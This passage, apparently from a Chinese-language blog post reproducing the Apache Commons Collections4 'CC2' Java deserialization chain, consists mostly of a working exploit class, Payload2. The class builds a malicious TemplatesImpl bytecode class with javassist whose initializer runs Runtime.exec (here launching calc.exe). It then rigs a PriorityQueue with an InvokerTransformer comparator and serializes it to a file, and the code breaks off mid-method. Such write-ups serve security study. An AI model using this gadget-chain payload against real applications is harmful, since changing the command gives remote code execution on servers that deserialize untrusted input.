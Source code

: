 恶意加载的类长这样

![image-20211223132746482](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211223132746482.png)

## 漏洞复现

exp

```
package CC2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Payload2 {
    public static void main(String[] args) throws Exception{

        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

        Object queue_array = new Object[]{templates,1};
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        field.setAccessible(true);
        field.set(queue,queue_array);

        Field field1 = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        field1.setAccessible(true);
        field1.set(queue,2);

        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue,comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC2Test2.txt"));
        os.writeObject(queue);
```